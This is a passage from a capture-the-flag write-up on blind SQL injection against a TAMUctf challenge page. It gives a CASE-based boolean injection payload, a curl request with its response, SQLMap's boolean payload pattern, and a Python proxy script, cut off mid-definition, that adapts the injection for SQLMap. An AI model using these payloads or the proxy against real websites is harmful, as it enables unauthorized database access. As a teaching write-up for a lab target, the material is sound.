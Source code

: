 In our case, we need to find some kind of SQL syntax that SQLMap could easily fit its payload into.

I started with the following payload:
```
' or case when 1=1 then 1 else 0 end='1
```

This gives us the "True" page:
```console
root@kali:/media/sf_CTFs/tamu/Bird_Box# curl http://web2.tamuctf.com/Search.php?Search=%27%20or%20case%20when%201=1%20then%201%20else%200%20end=%271
<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Nice try, nothing to see here.</h1></br><img src='Nice_Going!.gif'>
```

Explanation: Since `1=1` the case `case when 1=1 then 1 else 0 end` translates to `1` and the complete expression becomes `' or 1='1`, like before.

Now, we can insert the SQLMap payload in the following location, denoted by `*`:
```
' or case when 1=1 * then 1 else 0 end='1
```

SQLMap performs boolean-based attacks by trying payloads such as:
```
and (SELECT LENGTH(database()))=1
and (SELECT LENGTH(database()))=2
...
and (SELECT LENGTH(database()))=6
...
```

So, if SQLMap sends a "True" payload such as `and 2=2`, the expression will map to True, and otherwise (e.g. `and 2=3`) it will map to False.

Now, when SQLMap identifies the `*` in the URL, it asks if it should be used as a custom injection marker and if so - injects its payload to that exact location.

However, this still didn't work, and it looked like the fact that the website keeps returning Error 500s is throwing SQLMap off.

To overcome this, I decided to create a proxy and "translate" the different responses into data that SQLMap can work with.

This is the proxy I used:

```python
from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
import SocketServer
from urlparse import urlparse
import requests

class S(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def do_GET(self):
        self._set_headers()
        query = urlparse(self.path).query
        r = requests.get("http://web2.tamuctf.com/Search.php?Search=' or case when 1=1 {} then 1 else 0 end='1".format(query))
        self.wfile.write("<html><body>{}</body></html>".format("Ehhh.png" in r.text))

    def do_HEAD(self):
        self._set_headers()
        
    def do_POST(self):
```